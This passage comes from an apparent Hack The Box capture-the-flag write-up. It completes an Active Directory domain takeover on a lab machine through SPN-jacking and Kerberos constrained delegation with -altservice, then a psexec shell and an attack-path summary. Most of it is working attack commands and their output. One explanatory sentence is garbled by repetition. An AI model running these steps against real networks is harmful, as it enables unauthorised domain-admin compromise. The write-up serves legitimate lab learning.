3. Now when we request a ticket for `HTTP/WEB01`, it's encrypted for DC01$!
```bash
python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'NewPass123!' -t 'WEB01$' -s 'HTTP/WEB01' -r ldap://10.129.13.154

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```
#### Step 3 - Add HTTP/WEB01 to DC01$ via bloodyAD
`addspn.py` fails with constraint violation because `HTTP/WEB01` doesn't match DC01's hostname. bloodyAD uses direct REPLACE operation which bypasses validated write.


```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ bloodyAD --host 10.129.13.154 -d pirate.htb -u a.white_adm -p 'NewPass123!' set object 'DC01$' servicePrincipalName -v 'HTTP/WEB01'

[+] DC01$'s servicePrincipalName has been updated

```
#### Verifying 

```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'NewPass123!' -t 'DC01$' -q ldap://10.129.13.154 | grep -i http

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
    servicePrincipalName: HTTP/WEB01
    
```

```bash

┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ python3 addspn.py -u 'pirate.htb\a.white_adm' -p 'NewPass123!' -t 'WEB01$' -q ldap://10.129.13.154 | grep -i http

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
                          HTTP/WEB01.pirate.htb
```


### Step 4 -Get Delegation Ticket (Now Points to DC01$)

```bash

┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ unset KRB5CCNAME

impacket-getST -spn 'HTTP/WEB01' -impersonate Administrator -dc-ip 10.129.13.154 pirate.htb/a.white_adm:'NewPass123!' -altservice 'cifs/DC01.pirate.htb'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from HTTP/WEB01@PIRATE.HTB to cifs/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@cifs_DC01.pirate.htb@PIRATE.HTB.ccache

```

 **What Does `-altservice` Do?**
 
**The problem:**
Our delegation gives us `HTTP/WEB01` — but we want `CIFS/DC01.pirate.htb` to access files.
**The solution: Service ticket modification**
Kerberos tickets contain a service name field that isn't always cryptographically protected in the same way. The `-altservice` flag:
1. Requests the delegated ticket for `HTTP/WEB01` (which now resolves to DC01$)
2. Modifies the service portion of the ticket to `CIFS/DC01.pirate.htb`

**Why this works:**
The ticket is encrypted with DC01 key (becauseDC01's key (because DC01  key(becauseDC01 now owns HTTP/WEB01). When we change the service name to `cifs/DC01.pirate.htb`:
- The ticket is still valid (encrypted with correct key)
- DC01 accepts it for CIFS access
- We get Administrator access to DC01's file system
### Step 5 -Shell on DC01 as Administrator
```bash
┌──(penguin㉿0X0F)-[~/…/Machines/S10/Pirate/krbrelayx]
└─$ export KRB5CCNAME=$(pwd)/Administrator@cifs_DC01.pirate.htb@PIRATE.HTB.ccache

impacket-psexec -k -no-pass -dc-ip 10.129.12.119 -target-ip 10.129.13.154 administrator@DC01.pirate.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.13.154.....
[*] Found writable share ADMIN$
[*] Uploading file QcLiUiai.exe
[*] Opening SVCManager on 10.129.13.154.....
[*] Creating service rKqF on 10.129.13.154.....
[*] Starting service rKqF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.8385]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
d3d670a5e4dd17f6efec238f8a5ba250

C:\Windows\system32> 

```

**Pathway**

```XML

┌─────────────────────────────────────────────────────────────────────────────┐
│                           ATTACK PATH OVERVIEW                               │
└─────────────────────────────────────────────────────────────────────────────┘

    pentest                    (Starting credentials)
        │
        │ Pre2k Attack (default password)
        ▼
    MS01$                      (Computer account with password "ms01")
        │
        │ PrincipalsAllowedToRetrieveManagedPassword
        ▼
    gMSA_ADFS_prod$            (Read NTLM hash)
        │
        │ Local Admin / WinRM access
        ▼
    DC01                       (Shell on DC, discovered internal network)
        │
        │ Ligolo tunnel to 192.168.100.0/24
        ▼
    WEB01 (internal)           (SMB signing disabled!)
        │
        │ NTLM Relay + RBCD via EVIL$
        ▼
    WEB01 Administrator        (user.txt captured)
        │
        │ LSA Secrets dump
        ▼
    a.white credentials        (Found in cached credentials)
        │
        │ ForceChangePassword ACL
        ▼
    a.white_adm                (Password reset to NewPass123!)
        │
        │ WriteSPN on DC01$ + Constrained Delegation
        │ SPN-Jacking attack
        ▼
    DC01 Administrator         (root.txt captured - DOMAIN ADMIN!)

└─────────────────────────────────────────────────────────────────────────────┘
```
